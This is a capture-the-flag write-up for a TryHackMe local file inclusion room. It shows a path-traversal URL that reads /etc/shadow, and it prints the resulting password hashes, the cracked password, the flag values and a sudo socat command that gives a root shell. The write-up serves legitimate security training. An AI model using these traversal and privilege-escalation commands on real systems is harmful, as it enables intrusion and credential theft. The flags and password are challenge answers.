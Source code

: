 ###### A beginner level LFI challenge
Room: https://tryhackme.com/room/inclusion
##


**sudo nmap** -sS -sV -T5 -vv xx.xx.xxx.xxx  
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 0.16.0 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If we go to the website and click any of the articles, we see that the url changes to **/article?name=ARTICLE_Name_here**.  
We can abuse this by trying to read from an arbitrary file. If we replace article name with a desired file location, we can access its content.  

**http://xx.xx.xxx.xxx/article?name=../../../etc/shadow**
```
<!DOCTYPE html>

<html>
    <body>
root:$6$mFbzBSI/$c80cICObesNyF9XxbF6h6p6U2682MfG5gxJ5KtSLrGI8766/etwzBvppTuug6aLoltiSmeqdIaEUg6f/NLYDn0:18283:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
lxd:*:18281:0:99999:7:::
uuidd:*:18281:0:99999:7:::
dnsmasq:*:18281:0:99999:7:::
landscape:*:18281:0:99999:7:::
pollinate:*:18281:0:99999:7:::
falconfeast:$6$dYJsdbeD$rlYGlx24kUUcSHTc0dMutxEesIAUA3d8nQeTt6FblVffELe3FxLE3gOID5nLxpHoycQ9mfSC.TNxLxet9BN5c/:18281:0:99999:7:::
sshd:*:18281:0:99999:7:::
mysql:!:18281:0:99999:7:::
    </body>

</html>
```

But... why cracking the hash when we can access the /home/falconfeast/user.txt and /root/root.txt the same way as shown before?  
**http://xx.xx.xxx.xxx/article?name=../../../home/falconfeast/user.txt**  **[Flag 1]**
```
60989655118397345799 
```
**http://xx.xx.xxx.xxx/article?name=../../../root/root.txt**  **[Flag 2]**
```
42964104845495153909
```

Anyway, after cracking the hash, the password for falconfeast is **rootpassword**.   

**falconfeast@inclusion:~$ sudo -l**  

```
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
 **sudo socat stdin exec:/bin/sh**
```
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
```
